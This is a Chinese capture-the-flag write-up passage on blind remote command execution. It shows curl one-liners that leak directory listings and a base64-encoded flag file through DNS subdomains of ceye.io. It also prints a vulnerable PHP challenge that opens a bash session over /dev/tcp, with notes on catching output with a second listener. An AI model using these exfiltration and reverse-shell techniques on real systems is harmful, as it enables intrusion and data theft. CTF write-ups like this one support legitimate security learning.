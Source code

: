这里用rce卡很久，反弹shell弹不出来，选择用dns外带了：
[CEYE - Monitor service for security testing](http://ceye.io/) 或者 [DNSLog Platform](http://www.dnslog.cn/)

但是外带的时候又碰到一些问题，学习了这篇文章：[RCE篇之无回显rce - 学安全的小白 - 博客园 (cnblogs.com)](https://www.cnblogs.com/pursue-security/p/15406672.html)

像ls，因为返回的结果是多行的，这里就只能显示一行，可以像这样：

```sh
curl `ls / | sed -n "5p"`.xxx.ceye.io
```

![](https://i.loli.net/2021/10/29/gSBo1fmieasyqnC.png)

确认flag在根目录下，在cat的时候出了些问题，可能因为一些字符问题，导致flag显示不全，这里用base64编码后再带出来：

```sh
curl http://xxx.ceye.io/`cat /flag | base64`
```

![](https://i.loli.net/2021/10/29/ZFHvIbUjs4TLa26.png)

![](https://i.loli.net/2021/10/29/tZYJwQdkGNq4WjA.png)



## where_is_my_FUMO

[Linux反弹shell（一）文件描述符与重定向 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2548)

[Linux 反弹shell（二）反弹shell的本质 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2549)

```php
<?php
function chijou_kega_no_junnka($str) {
    $black_list = [">", ";", "|", "{", "}", "/", " "];
    return str_replace($black_list, "", $str);
}

if (isset($_GET['DATA'])) {
    $data = $_GET['DATA'];
    $addr = chijou_kega_no_junnka($data['ADDR']);
    $port = chijou_kega_no_junnka($data['PORT']);
    exec("bash -c \"bash -i < /dev/tcp/$addr/$port\"");
} else {
    highlight_file(__FILE__);
}
```

看源码，和一般的反弹shell不同，它实际是将咱们的vps这边作为输入，可以理解为无回显rce
但是咱们可以再监听一个端口用来接收命令执行后的结果，如下

找到了根目录下的flag.png

![](https://i.loli.net/2021/10/31/IUKqLwHOEThJn6m.png)
